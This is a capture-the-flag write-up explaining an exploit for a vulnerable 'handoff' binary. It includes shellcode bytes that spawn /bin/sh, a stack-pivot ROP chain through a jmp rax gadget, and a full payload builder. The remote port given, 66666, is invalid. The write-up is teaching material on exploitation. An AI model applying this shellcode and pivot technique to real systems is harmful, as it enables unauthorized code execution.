# Handoff Challenge - Binary Exploitation Solution

## Challenge Overview
The "Handoff" challenge is a binary exploitation task that requires leveraging a buffer overflow vulnerability to gain a shell on the target system.

## Vulnerability Analysis

### Source Code Review
Analyzing the `handoff.c` source code reveals two key vulnerabilities:

1. **Buffer Overflow in Feedback Function**:
   ```c
   char feedback[8];
   // ...
   fgets(feedback, NAME_LEN, stdin); // NAME_LEN is 32
   ```
   The feedback buffer is only 8 bytes, but the program reads up to 32 bytes into it, allowing us to overflow the buffer and control the return address when the `vuln()` function exits.

2. **Controllable Memory Region**:
   ```c
   fgets(entries[choice].msg, MSG_LEN, stdin); // MSG_LEN is 64
   ```
   The program allows us to write arbitrary data (up to 64 bytes) to entry messages, giving us a location to store our shellcode.

3. **Memory Layout Information**:
   ```c
   printf("entries[0].msg address: %p\n", (void*)&entries[0].msg);
   ```
   The program even conveniently prints the address of the message buffer where we'll store our shellcode.

## Exploitation Strategy

Our exploit has three main components:

1. **Store shellcode** in an entry message buffer
2. **Overflow the stack** through the feedback buffer to control the return address
3. **Redirect execution** to our shellcode using a ROP chain with stack pivot

## Exploit Code Breakdown

### 1. Key Constants and Configuration

```python
NOP_SLED_SIZE = 36           # Size of NOP sled to improve shellcode reliability
BUFFER_OFFSET = 726          # Distance from rsp to shellcode buffer
ROP_PADDING_SIZE = 20        # Padding for ROP chain alignment
JMP_RAX_ADDR = 0x40116c      # Address of a useful gadget: jmp rax
```

The `BUFFER_OFFSET` is critical - it's the distance from the stack pointer (after the function returns) to our shellcode location.

### 2. Shellcode Generation

```python
def generate_shellcode():
    # Standard x86_64 shellcode that spawns /bin/sh
    shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
    
    # NOP sled makes the shellcode more reliable by giving us a larger target
    padded_shellcode = b"\x90" * NOP_SLED_SIZE + shellcode
    
    return padded_shellcode
```

The shellcode executes `/bin/sh`, and the NOP sled increases our chances of successfully hitting the shellcode.

### 3. ROP Chain Construction

```python
def create_rop_chain(binary):
    # ...
    
    # Create stack pivot to reach our shellcode
    stack_pivot = asm(f"""
        nop
        nop
        sub rsp, {BUFFER_OFFSET}  # Move stack pointer to our shellcode buffer
        jmp rsp                   # Jump to execute our shellcode
    """)
    
    # Build the final ROP payload
    rop_payload = stack_pivot.ljust(ROP_PADDING_SIZE, b"\x90") + p64(jmp_rax_addr)
    
    return rop_payload
```

**Note on using `jmp rax`:** In a buffer overflow scenario, the register `rax` can be made to hold the start address of the overflowed buffer— in our case, the feedback buffer. Although this behavior might be influenced by the C runtime settings, we can leverage it so that the feedback buffer itself stores the next ROP chain. This ROP chain decrements `rsp` by 726 bytes (positioning it at the shellcode buffer) and then jumps to `rsp` via the `jmp rax` gadget. This technique allows us to effectively redirect execution flow to our payload.

### 4. Full Payload Assembly

```python
def build_full_payload(shellcode, rop_payload):
    return (
        b"1\n"              # Option 1: Add recipient
        b"A\n"              # Recipient name (arbitrary)
        b"2\n"              # Option 2: Send message
        b"0\n"              # Select recipient index 0
        + shellcode + b"\n"  # Send shellcode as message
        b"3\n"              # Option 3: Exit
        + rop_payload + b"\n" # Feedback with ROP chain
    )
```

Our payload performs these actions:
1. Add a recipient (option 1) with name "A"
2. Send a message to recipient 0 (option 2), which contains our shellcode
3. Choose to exit (option 3), providing our ROP chain as feedback

## Execution Flow

When the program runs with our exploit:

1. **Setup**: A recipient is added with name "A"
2. **Shellcode Placement**: Our shellcode is stored in the message buffer of recipient 0
3. **Buffer Overflow**: We trigger the feedback function and overflow the buffer with our ROP chain
4. **Return Hijack**: When `vuln()` returns, it jumps to our ROP gadget at 0x40116c (`jmp rax`)
5. **Stack Pivot**: Our ROP chain executes, moving RSP to point to our shellcode
6. **Shellcode Execution**: Control flows into our NOP sled, then into the shellcode
7. **Shell Access**: The shellcode spawns a shell, giving us command execution

## Memory Layout Analysis

Looking at the binary structure, here's how the stack would look during the exploit:
```
High memory addresses
+----------------+
| Return address | <- Overwritten with address of jmp rax gadget
+----------------+
| Saved rbp      | <- Also overwritten by our payload
+----------------+
| ...            |
+----------------+
| feedback[7]    |
| ...            |
| feedback[0]    | <- Original 8-byte buffer
+----------------+
| ...            |
+----------------+
| entries[].msg  | <- Where our shellcode is stored (726 bytes from RSP)
+----------------+
Low memory addresses
```

## Finding the JMP RAX Gadget

The address 0x40116c was found by analyzing the binary using ROPgadget:

```
$ ROPgadget --binary ./handoff | grep "jmp rax"
0x000000000040116c : jmp rax
```

This gadget is crucial for our exploit as it allows us to start executing our stack pivot code.

## Running the Exploit

To run the exploit against a local target:

```
python3 exploit.py
```

To run against the remote challenge:

```
python3 exploit.py -r -p 66666
```

When the script executes successfully, you will get an interactive shell where you can run commands like `cat flag.txt` to retrieve the flag.

## Conclusion

This exploit demonstrates a classic stack buffer overflow that:
1. Places shellcode in a controlled memory region
2. Uses a stack pivot technique to redirect execution flow
3. Leverages ROP to execute arbitrary code despite modern protections

The vulnerability could have been prevented by properly restricting the input size to match the buffer size or by enabling additional protections like stack canaries.

